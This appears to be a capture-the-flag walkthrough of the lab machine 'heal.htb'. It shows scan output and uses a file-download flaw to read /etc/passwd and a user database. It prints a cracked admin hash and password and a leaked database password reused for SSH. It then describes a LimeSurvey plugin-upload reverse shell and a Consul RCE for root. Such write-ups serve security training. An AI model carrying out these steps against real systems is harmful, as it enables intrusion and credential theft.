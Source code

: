 1,Recon
port scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_  256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Page check
![](images/Pasted%20image%2020250101060923.png)
In this page, the login button or register button didn't work in this place.There is no any post response here.
![](images/Pasted%20image%2020250101062055.png)
From the source code, I found the label "noscript", I think I can try to change it and check the effect of this script.
By using the burp to catch the package, I found something interesting,
![](images/Pasted%20image%2020250101062411.png)
```
In this place, There is a special word `cross-domain magic`, that means there is a sub-domain like a `api.example.com`

1. 跨域 (Cross-Domain) 的背景
在 Web 开发中，浏览器对跨域请求的限制是为了安全性。比如，从 https://example.com 请求 https://api.example.com 就属于跨域。如果没有正确的设置，浏览器会阻止这些请求。

跨域魔法（Cross-Domain Magic）可能指的是开发者利用某些技术或手段绕过或实现跨域请求。
```

By check `/resume` page, we can found 
![](images/Pasted%20image%2020250101070328.png)
And also, we can get another sub-domain
`http://take-survey.heal.htb/index.php/552933?lang=en`
And also, we can by submit the form to get the valid cookie and we can come to `api.heal.htb` to download files.
![](images/Pasted%20image%2020250101071932.png)
From the `/etc/passwd` we found the valid user is `ron`
We have known the version of this service, so we can use this LFI to check the configuration.
![](images/Pasted%20image%2020250101072312.png)
```
test:
  <<: *default
  database: storage/test.sqlite3

production:
  <<: *default
  database: storage/development.sqlite3
```
We got it `storage/development.sqlite3` and check what is going on here.
```
sqlite> .tables
ar_internal_metadata  token_blacklists    
schema_migrations     users               
sqlite> select * from users;
1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|2024-09-27 07:49:31.614858|2024-09-27 07:49:31.614858|Administrator|ralph|1
2|cooper@cooper.cooper|$2a$12$7W6nhIB6/hRdmbzTXt2qeuoSta6zxbhIun6jfkfqezHHGHjM/JX.y|2025-01-01 07:19:48.318586|2025-01-01 07:19:48.318586|cooper|cooper|0
3|cooper2@cooper.cooper|$2a$12$4Lm6RuaXlRIxkNYcq3ClrOtvM4kIE7pSC1yoJUSPOrCCiS.uteBla|2025-01-01 08:03:42.999713|2025-01-01 08:03:42.999713|cooper2|cooper2|0
```
Then by using the hashcat to crack it 
we get `$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369`


So I would continue to check the valid web-contents.
By using `fuff` to check the valid sub-domain, I found a valid sub-domain name `api.heal.htb`
![](images/Pasted%20image%2020250101061351.png)
Then we can get versions here.
So let's continue to enumerate the valid web-contents

As before, we have get the credit `ralph : 147258369`
So let's come to login to admin dashboard
![](images/Pasted%20image%2020250101072957.png)

Then we login successfully 
![](images/Pasted%20image%2020250101073035.png)
And in the bottom of page, we can get the version of `LimeSurvey`
`[LimeSurvey Community Edition](https://community.limesurvey.org) [Version 6.6.4])`
By check the versions from the exploit-db, we found
`LimeSurvey 5.2.4 - Remote Code Execution (RCE) (Authenticated)`
`https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git`
![](images/Pasted%20image%2020250101073943.png)
Besides change the reverse shell and we need to change the version of config, we need the version 6.0
Then let's curl `http://take-survey.heal.htb/upload/plugins/111/php-rev.php`
Finally we can get the reverse shell as `www-data`

Let's enumerate the config file `/var/www/limesurvey/application/config/config.php`
```
db' => array(
                        'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
                        'emulatePrepare' => true,
                        'username' => 'db_user',
                        'password' => 'AdmiDi0_pA$$w0rd',
                        'charset' => 'utf8',
                        'tablePrefix' => 'lime_',
                ),

```
I hope we can just use this password to login as `ron` .We are lucky, we get it.

2, shell as root
Firstly, I would check `sudo -l` first.
`Sorry, user ron may not run sudo on heal.`
Then I would continue to check the netstate
```
ron@heal:~$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8503          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3001          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```
And I found port 8500 seems like our target
```
curl 127.0.0.1:8500
<a href="/ui/">Moved Permanently</a>.

```
Let's Port forwarding to local machine and check it from firefox.
![](images/Pasted%20image%2020250101075657.png)
We found the version `Consul v1.19.2`
And by searching from exploit-db, we found 
`Hashicorp Consul v1.0 - Remote Command Execution (RCE)`
Let's run the script and over this machine.

